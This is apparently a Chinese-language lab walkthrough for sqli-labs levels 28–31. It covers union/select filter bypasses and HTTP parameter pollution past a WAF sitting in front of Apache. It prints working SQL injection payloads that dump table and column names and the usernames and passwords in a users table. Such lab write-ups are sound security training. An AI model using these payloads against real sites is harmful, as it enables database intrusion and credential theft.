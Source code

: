 过滤了相连的 union 加 空格 加 select，同时匹配大小写

bypass

```
#双写绕过
?id=0')uni union%0Aselecton%0Aselect%0A1,2,group_concat(table_name)from%0Ainformation_schema.tables%0Awhere%0Atable_schema='security'and ('1

#或者
?id=0')%0buniOn%0bsElEct%0b1,database(),3%0bor%0b('1')=('1 
```

### less 28a GET - Bind Based- All your UNION & SELECT belong to us String-Single quote with parenthesis

基于盲注的，有括号的单引号字符型，过滤了union和select等的注入

只过滤了union select

绕过方式同上题

### Less-29 GET -Error based- IMPIDENCE MISMATCH- Having a WAF in front of web application.

基于WAF的一个错误

服务器架构

![image-20241127111831331](C:\Users\scofi\AppData\Roaming\Typora\typora-user-images\image-20241127111831331.png)

client 访问服务器，能直接访问到 Tomcat 服务器，然后 tomcat 服务器在向 Apache 服务器请求数据，数据返回路径刚好相反

HTTP参数污染

不同的中间件在处理参数重复问题解析到的参数不同

```
e.g. index.php?id=1&id=2
apache(php)解析最后一个参数,即回显id=2
而tomcat(jsp)解析第一个参数,即回显id=1
```

![image-20220317222232693](https://wanan-1310031509.cos.ap-beijing.myqcloud.com/img/202203172222840.png)

在本题目当中，waf在tomcat，对第一个参数进行了过滤，二apache解析的是第二个参数

payload

```
#爆表
?id=1&id=-2%27%20union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=database()--+

#爆字段
?id=1&id=-2%27%20union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_schema=database() and table_name='users'--+
 
#爆密码账户
?id=1&id=-2%27%20union%20select%201,group_concat(password,username),3%20from%20users--+
```

### Less-30 Get-Blind Havaing with WAF

同上题，闭合方式变为双引号

### Less-31 Protection with WAF

bypass同上，闭合方式变为`")`
